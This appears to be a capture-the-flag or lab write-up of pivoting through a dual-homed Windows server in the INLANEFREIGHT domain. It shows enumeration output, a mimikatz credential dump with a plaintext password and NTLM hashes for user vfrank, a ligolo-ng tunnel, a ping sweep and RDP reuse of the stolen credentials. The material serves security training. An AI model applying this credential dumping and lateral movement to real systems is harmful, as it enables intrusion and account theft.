


# Pivot-SRV01 Enumeration

```powershell
Microsoft Windows [Version 10.0.17763.2628]                                                                                                                                  11:10 [10/1188]
(c) 2018 Microsoft Corporation. All rights reserved.

mlefay@PIVOT-SRV01 C:\Users\mlefay>whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
pivot-srv01\mlefay S-1-5-21-1602415334-2376822715-119304339-1003


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Desktop Users                                  Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

ERROR: Unable to get user claims information.
```

```powershell
mlefay@PIVOT-SRV01 C:\Users\mlefay>systeminfo

Host Name:                 PIVOT-SRV01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-00521-62775-AA277
Original Install Date:     5/6/2022, 1:19:26 AM
System Boot Time:          4/22/2026, 9:39:31 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~1996 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.24504846.B64.2501180334, 1/18/2025
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,188 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,921 MB
Virtual Memory: In Use:    878 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    INLANEFREIGHT.LOCAL
Logon Server:              N/A

Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4535680
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
Network Card(s):           2 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.5.35
                                 [02]: fe80::1495:978f:f068:6995
                           [02]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet1 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.6.35
                                 [02]: fe80::dc12:405b:ca55:3c91
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Found that it's dual homed: 172.16.5.35 and 172.16.6.35

```powershell
mlefay@PIVOT-SRV01 C:\Users\mlefay>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::1495:978f:f068:6995%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::dc12:405b:ca55:3c91%5
   IPv4 Address. . . . . . . . . . . : 172.16.6.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . :
```

Nothing found in `mlefay` users directory.

```powershell
mlefay@PIVOT-SRV01 C:\Users\mlefay>tree /F
Folder PATH listing
Volume serial number is B8B3-0D72
C:.
├───.ssh
│       id_rsa
│       id_rsa.pub
│
├───3D Objects
├───Contacts
├───Desktop
├───Documents
├───Downloads
├───Favorites
│   │   Bing.url
│   │
│   └───Links
├───Links
│       Desktop.lnk
│       Downloads.lnk
│
├───Music
├───Pictures
├───Saved Games
├───Searches
└───Videos
```

Nothing found in `administrator.INLANEFREFIGT` also

```powershell
mlefay@PIVOT-SRV01 C:\Users\administrator.INLANEFREIGHT>tree /F
Folder PATH listing
Volume serial number is B8B3-0D72
C:.
├───3D Objects
├───Contacts
├───Desktop
├───Documents
├───Downloads
├───Favorites
│   │   Bing.url
│   │
│   └───Links
├───Links
│       Desktop.lnk
│       Downloads.lnk
│
├───Music
├───Pictures
├───Saved Games
├───Searches
└───Videos
```

Nothing found in `Administrator` also

```powershell
mlefay@PIVOT-SRV01 C:\Users\Administrator>tree /F
Folder PATH listing
Volume serial number is B8B3-0D72
C:.
├───3D Objects
├───Contacts
├───Desktop
├───Documents
├───Downloads
├───Favorites
│   │   Bing.url
│   │
│   └───Links
├───Links
│       Desktop.lnk
│       Downloads.lnk
│
├───Music
├───Pictures
├───Saved Games
├───Searches
└───Videos
```

Nothing as well for `apendragon`, `lab_adm`, `Public`, and `vfrank`

```powershell
├───apendragon
│   ├───Desktop
│   ├───Documents
│   ├───Downloads
│   ├───Favorites
│   ├───Links
│   ├───Music
│   ├───Pictures
│   ├───Saved Games
│   └───Videos
├───lab_adm
│   ├───3D Objects
│   ├───Contacts
│   ├───Desktop
│   ├───Documents
│   ├───Downloads
│   ├───Favorites
│   │   │   Bing.url
│   │   │
│   │   └───Links
│   ├───Links
│   │       Desktop.lnk
│   │       Downloads.lnk
│   │
│   ├───Music
│   ├───Pictures
│   ├───Saved Games
│   ├───Searches
│   └───Videos
├───Public
│   ├───Documents
│   ├───Downloads
│   ├───Music
│   ├───Pictures
│   └───Videos
└───vfrank
    ├───3D Objects
    ├───Contacts
    ├───Desktop
    ├───Documents
    ├───Downloads
    ├───Favorites
    │   │   Bing.url
    │   │
    │   └───Links
    ├───Links
    │       Desktop.lnk
    │       Downloads.lnk
    │
    ├───Music
    ├───Pictures
    ├───Saved Games
    ├───Searches
    └───Videos
```

Got RDP access




**Got vfrank creds via mimikatz sekurlsa::logonpasswords**

**creds**
username: `vfrank`
password: `Imply wet Unmasked!`


```
Authentication Id : 0 ; 163110 (00000000:00027d26)
Session           : Service from 0
User Name         : vfrank
Domain            : INLANEFREIGHT
Logon Server      : ACADEMY-PIVOT-D
Logon Time        : 4/23/2026 8:56:01 AM
SID               : S-1-5-21-3858284412-1730064152-742000644-1103
        msv :
         [00000003] Primary
         * Username : vfrank
         * Domain   : INLANEFREIGHT
         * NTLM     : 2e16a00be74fa0bf862b4256d0347e83
         * SHA1     : b055c7614a5520ea0fc1184ac02c88096e447e0b
         * DPAPI    : 97ead6d940822b2c57b18885ffcc5fb4
        tspkg :
        wdigest :
         * Username : vfrank
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : vfrank
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Imply wet Unmasked!
        ssp :
        credman :
```

Here's [complete mimikatz dump](./pivot-srv01-mimikatz-dump.txt)

Established tunnel via ligolo-ng. Did a ping sweep and got potential hosts:

```bash
└─$ for i in $(seq 1 254); do     (ping -c 1 -W 1 172.16.6.$i | grep "bytes from" &); done
64 bytes from 172.16.6.25: icmp_seq=1 ttl=64 time=431 ms
64 bytes from 172.16.6.35: icmp_seq=1 ttl=64 time=409 ms
64 bytes from 172.16.6.45: icmp_seq=1 ttl=64 time=389 ms
```

Got access via RDP to 172.16.6.25 using `vfrank` creds

Got flag also.



